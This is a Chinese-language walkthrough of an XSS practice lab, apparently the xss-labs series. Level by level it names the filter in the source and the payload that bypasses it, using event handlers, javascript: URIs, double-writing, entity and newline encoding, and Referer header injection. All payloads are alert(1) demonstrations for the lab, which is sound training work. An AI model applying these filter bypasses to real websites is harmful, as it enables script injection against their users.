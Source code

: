 1. 没有任何过滤
> <script>alert('xss')</script>
2. 源码发现`".htmlspecialchars($str)."`
把<和>转换成HTML实体，也就是说大于小于不能用
> "><script>alert('xss')</script>
> " onmouseover=alert(1)>需要鼠标划过输入框
`" onclick=alert(1)<br>`需要点击搜索框
3. 与第二关的区别在于`'".htmlspecialchars($str)."'`
> ' onmouseover=alert(1)//
- `<input name="keyword" value=" " onmouseover="alert(1)//'">`
4. 查看代码发现`str_replace("<>","",$str)` 
<>被替换成空
> " onfocus=alert(1) autofocus="
- `<input name=keyword value=" " onfocus=alert(1) autofocus=" " >`
> " onclick=alert(1) //
- `<input name=keyword value=" " onclick=alert(1) //">`
5. 分析代码发现strtolower函数，会把所有字母编程小写字母,并且过滤`<script`和`on`,不过这次没有过滤大于小于
> `"><iframe src=javascript:alert(1)>`
> `"><a href=javascript:alert(1)> `
> `"> <a href="javascript:alert(1)">zhouzhong</a>`
> `"> <a href="javascript:%61lert(1)">zhouzhong</a> //`
6. 过滤了script，on，src，data，href，但是没有大小写约束
> `"> <Script>alert(1)</script> //`
> `"> <img Src=x OnError=alert(1)> //`
> `"><a HrEf="javascript:alert(1)">zhouzhong</a>//`
> `" OncliCk=alert(1) //`
7. 过滤了script，on，src，data，href,过滤了大小写，尝试双写绕过
> `"><sscriptcript>alert(1)</sscriptcript>`
> `">hello<sscriptcript>alert(1)</sscriptcript>`
> `" oonnmouseover=alert(1)`
> `"><a hrhrefef=javascriscriptpt:alert(1)>zhouzhong</a>`
8. 过滤了script，on，src，data，href,过滤了大小写和双引号,使用html实体字符转换
> `javascrip&#x74;:alert(1)`
> `javasc&#x72;ipt:alert`1``
> `javasc&#x0072;ipt:alert`1``
9. 与8一样，只不过多了自动检测url，如果没有带`http://`内容则会显示不合法
> `javascrip&#x74;:alert(1)//http://xxx.com`
> `javascrip&#x74;:%0dhttp://xxx.com%0dalert(1)`
10. 分析代码，发现需要两个参数，一个是keyword，一个是t_sort，尖括号<>都被转换成空，还有三个hidden的隐藏输入框，

或许我们可以从隐藏的输入框下手，构造payload：
> `keyword = test&t_sort="type="text" onclick = "alert(1)`
> `keyword = test&t_sort="type="text" onmouseover="alert(1)`
11. 多了一个 str11=_SERVER[‘HTTP_REFERER’]; 考察的是http头部的xss注入，burpsuite抓包，新增相应的字段，构造http头部Referer的payload:
> `Referer: " onmouseover=alert(1) type="text"`
> `Referer: " onclick="alert(1) type="text"`
12. 更改user-agent
13. 更改cookie
14.
15.
16. 禁止大小写绕过
script , / , (空格),等都被转换成&nbsp

即用%0d，%0a等绕过：

0a------换行符号－－－－－－"\n"
0d------回车符号－－－－－－"\r"
> `<img%0Dsrc=1%0Donerror=alert(1)>`
> `<iframe%0asrc=x%0donmouseover=alert`1`></iframe>`
> `<svg%0aonload=alert`1`></svg>`
17.
> `onmouseover=alert(1)`
18. 
> `onmouseover=alert(1)`